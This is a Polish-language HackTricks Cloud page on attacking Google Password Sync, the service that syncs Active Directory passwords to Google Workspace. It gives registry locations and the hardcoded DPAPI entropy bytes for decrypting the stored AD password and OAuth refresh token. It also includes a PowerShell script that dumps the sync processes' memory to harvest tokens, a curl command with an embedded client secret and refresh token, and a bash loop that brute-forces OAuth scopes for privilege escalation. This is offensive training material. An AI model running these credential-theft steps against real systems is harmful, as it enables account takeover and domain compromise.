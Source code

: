 # GPS - Google Password Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Podstawowe informacje

To jest binarny plik i usługa, które Google oferuje w celu **utrzymania synchronizacji haseł użytkowników między AD** a Workspace. Za każdym razem, gdy użytkownik zmienia swoje hasło w AD, jest ono ustawiane w Google.

Instaluje się w `C:\Program Files\Google\Password Sync`, gdzie można znaleźć binarny plik `PasswordSync.exe` do jego konfiguracji oraz `password_sync_service.exe` (usługa, która będzie nadal działać).

### GPS - Konfiguracja

Aby skonfigurować ten plik binarny (i usługę), należy **dać mu dostęp do Super Admina w Workspace**:

* Zaloguj się za pomocą **OAuth** z Google, a następnie **zapisze token w rejestrze (szyfrowany)**
* Dostępne tylko w kontrolerach domeny z GUI
* Podając **poświadczenia konta usługi z GCP** (plik json) z uprawnieniami do **zarządzania użytkownikami Workspace**
* Bardzo zły pomysł, ponieważ te poświadczenia nigdy nie wygasają i mogą być nadużywane
* Bardzo zły pomysł, aby dać SA dostęp do workspace, ponieważ SA może zostać skompromitowane w GCP i możliwe będzie przejście do Workspace
* Google wymaga tego dla kontrolowanych domen bez GUI
* Te poświadczenia są również przechowywane w rejestrze

Jeśli chodzi o AD, możliwe jest wskazanie, aby używał aktualnego **kontekstu aplikacji, anonimowego lub jakichś konkretnych poświadczeń**. Jeśli wybrano opcję poświadczeń, **nazwa użytkownika** jest przechowywana w pliku na **dysku**, a **hasło** jest **szyfrowane** i przechowywane w **rejestrze**.

### GPS - Zrzut hasła i tokenu z dysku

{% hint style="success" %}
Zauważ, że [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) jest w stanie wykryć **GPS**, uzyskać informacje o konfiguracji i **nawet odszyfrować hasło i token**.
{% endhint %}

W pliku **`C:\ProgramData\Google\Google Apps Password Sync\config.xml`** można znaleźć część konfiguracji, taką jak **`baseDN`** skonfigurowanego AD oraz **`username`**, których poświadczenia są używane.

W rejestrze **`HKLM\Software\Google\Google Apps Password Sync`** można znaleźć **szyfrowany token odświeżania** oraz **szyfrowane hasło** dla użytkownika AD (jeśli istnieje). Ponadto, jeśli zamiast tokenu używane są jakieś **poświadczenia SA**, również można je znaleźć zaszyfrowane w tym adresie rejestru. **Wartości** w tym rejestrze są dostępne tylko dla **Administratorów**.

Szyfrowane **hasło** (jeśli istnieje) znajduje się w kluczu **`ADPassword`** i jest szyfrowane za pomocą API **`CryptProtectData`**. Aby je odszyfrować, musisz być tym samym użytkownikiem, który skonfigurował synchronizację haseł i użyć tej **entropii** podczas korzystania z **`CryptUnprotectData`**: `byte[] entropyBytes = new byte[] { 0xda, 0xfc, 0xb2, 0x8d, 0xa0, 0xd5, 0xa8, 0x7c, 0x88, 0x8b, 0x29, 0x51, 0x34, 0xcb, 0xae, 0xe9 };`

Szyfrowany token (jeśli istnieje) znajduje się w kluczu **`AuthToken`** i jest szyfrowany za pomocą API **`CryptProtectData`**. Aby go odszyfrować, musisz być tym samym użytkownikiem, który skonfigurował synchronizację haseł i użyć tej **entropii** podczas korzystania z **`CryptUnprotectData`**: `byte[] entropyBytes = new byte[] { 0x00, 0x14, 0x0b, 0x7e, 0x8b, 0x18, 0x8f, 0x7e, 0xc5, 0xf2, 0x2d, 0x6e, 0xdb, 0x95, 0xb8, 0x5b };`\
Ponadto jest również kodowany za pomocą base32hex z użyciem słownika **`0123456789abcdefghijklmnopqrstv`**.

Wartości entropii zostały znalezione przy użyciu narzędzia. Zostało skonfigurowane do monitorowania wywołań do **`CryptUnprotectData`** i **`CryptProtectData`**, a następnie narzędzie zostało użyte do uruchomienia i monitorowania `PasswordSync.exe`, które odszyfruje skonfigurowane hasło i token autoryzacji na początku, a narzędzie **pokaże wartości entropii użytej** w obu przypadkach:

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-5782633230648853886-y.jpg" alt=""><figcaption></figcaption></figure>

Zauważ, że możliwe jest również zobaczenie **odszyfrowanych** wartości w wejściu lub wyjściu wywołań do tych API (w przypadku, gdy w pewnym momencie Winpeas przestanie działać).

W przypadku, gdy synchronizacja haseł została **skonfigurowana z poświadczeniami SA**, również będzie przechowywana w kluczach w rejestrze **`HKLM\Software\Google\Google Apps Password Sync`**.

### GPS - Zrzut tokenów z pamięci

Podobnie jak w przypadku GCPW, możliwe jest zrzucenie pamięci procesu `PasswordSync.exe` oraz procesów `password_sync_service.exe`, a będziesz w stanie znaleźć tokeny odświeżania i dostępu (jeśli zostały już wygenerowane).\
Myślę, że można również znaleźć skonfigurowane poświadczenia AD.

<details>

<summary>Zrzut <code>PasswordSync.exe</code> i procesów <code>password_sync_service.exe</code> oraz wyszukiwanie tokenów</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Show EULA if it wasn't accepted yet for strings
$stringsPath

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$processNames = @("PasswordSync", "password_sync_service")
$chromeProcesses = Get-Process | Where-Object { $processNames -contains $_.Name } | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}
```
</details>

### GPS - Generowanie tokenów dostępu z tokenów odświeżających

Używając tokena odświeżającego, możliwe jest generowanie tokenów dostępu przy użyciu tego tokena oraz identyfikatora klienta i tajnego klucza klienta określonych w następującym poleceniu:
```bash
curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
https://www.googleapis.com/oauth2/v4/token
```
### GPS - Zakresy

{% hint style="info" %}
Zauważ, że nawet posiadając token odświeżania, nie jest możliwe zażądanie żadnego zakresu dla tokena dostępu, ponieważ możesz żądać tylko **zakresów obsługiwanych przez aplikację, w której generujesz token dostępu**.

Ponadto, token odświeżania nie jest ważny w każdej aplikacji.
{% endhint %}

Domyślnie GPS nie będzie miał dostępu jako użytkownik do każdego możliwego zakresu OAuth, więc używając poniższego skryptu możemy znaleźć zakresy, które można wykorzystać z `refresh_token`, aby wygenerować `access_token`:

<details>

<summary>Skrypt Bash do brutalnego wymuszania zakresów</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

A oto wynik, który otrzymałem w momencie pisania:
```
https://www.googleapis.com/auth/admin.directory.user
```
Który jest taki sam, jak ten, który otrzymujesz, jeśli nie wskażesz żadnego zakresu.

{% hint style="danger" %}
Z tym zakresem możesz **zmodyfikować hasło istniejącego użytkownika, aby zwiększyć uprawnienia**.
{% endhint %}

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
